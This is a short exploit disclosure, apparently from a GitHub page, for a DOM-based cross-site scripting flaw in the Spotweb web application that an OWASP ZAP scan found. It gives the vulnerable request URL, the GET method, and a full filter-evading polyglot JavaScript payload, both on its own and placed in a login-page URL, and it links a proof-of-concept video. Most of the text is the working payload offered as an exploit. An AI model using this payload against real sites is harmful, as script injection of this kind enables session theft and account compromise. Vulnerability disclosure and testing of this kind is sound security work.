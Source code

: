 # SXX-DOM
------------------------------------------------------------------
## OWASP-ZAP - Risk Assessment analysis

```html
Cross Site Scripting (DOM Based)
```
- Link:
```url
http://192.168.1.160/spotweb-develop/?page=index&search%5Bincludeinfilter%5D=false&search%5Btext%5D=ZAP&search%5Btree%5D&search%5Btree%5D=cat3_zz_a7%252C&search%5Btree%5D=cat3_zz_a7%2C&search%5Btype%5D=Title&search%5Bunfiltered%5D=true&search%5Bvalue%5D%5B%5D&search%5Bvalue%5D%5B%5D=Title%3A%3D%3AAND%3AZAP&sortby&sortby=stamp&sortdir=ASC&sortdir=DESC
```
- Method:
```
GET
```
- Payload attack:
```
#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
-----------------------------------------------------------------------------------------------------------------------------------------------------------
URL: 	
```
http://192.168.1.160/spotweb-develop/?page=login#jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```
- Exploit, code @nu11secur1ty
```
0.1 edition
```
## [Proof of concept:](https://streamable.com/hix5o1)
